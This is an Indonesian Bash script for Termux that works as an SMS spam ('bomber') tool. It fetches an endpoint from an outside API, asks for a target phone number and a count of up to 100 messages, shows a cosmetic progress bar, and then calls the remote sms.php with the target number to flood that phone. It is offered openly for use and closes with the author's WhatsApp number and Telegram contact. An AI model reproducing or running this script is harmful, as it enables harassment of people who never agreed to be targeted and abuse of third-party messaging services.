 #Mau Ngpain???
#Rebuild Cant Make You The Real Programmer :)
clear
bi='\033[34;1m' 
i='\033[32;1m' 
pur='\033[35;1m' 
cy='\033[36;1m' 
me='\033[31;1m' 
pu='\033[37;1m' 
ku='\033[33;1m' 

echo Selamat datang $nick ":)"
get_url=$(curl -s http://zlucifer.com/api/sms.php)
cek='curl -s '$get_url 
response=`curl -s -o /dev/null -w "%{http_code}" $cek`
if [[ $response = *sleeping* ]]; then
    echo
    echo "Website Offline/Restart untuk sementara"
else
    echo
    echo "Masukan Nomor Target :  "
    echo contoh 0812xxxxxx
    read target
    echo 
    echo "Berapa Spam Yang Mau Di Kirim (Limit 100)?"
    read paket
    echo
    echo Apakah nomor $target "Dan Yang Mau Dikirim "$paket" Sudah Benar?"
    echo y/n?
    read confirm
    echo
    if [ $confirm = "y" ]; then
        echo Melakukan spam SMS ke nomor $target
        i=0
        max=100
        while [ $i -le $max ]; do
        echo -ne "\nPROSES SPAMMING : $i% "
        sleep 0.03
        if [ $i -eq 100 ]; then
            echo -ne " [Berhasil!]\n"
                       
            echo "Sabar Dlu Jangan Di Close Termux Nya"
            target_do=$get_url'/sms.php?nomor='$target'&paket='$paket


            CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
            echo "SELESAI"
            echo "ERROR??? CHAT ANE LAH"
            sleep 2
            echo "WhatsApp :" " 089527737700"
            echo "Telegram :" " https:/t.me/Mas Qi"
            fi
            let i++
            done
    else
        echo "Error "
    fi
fi
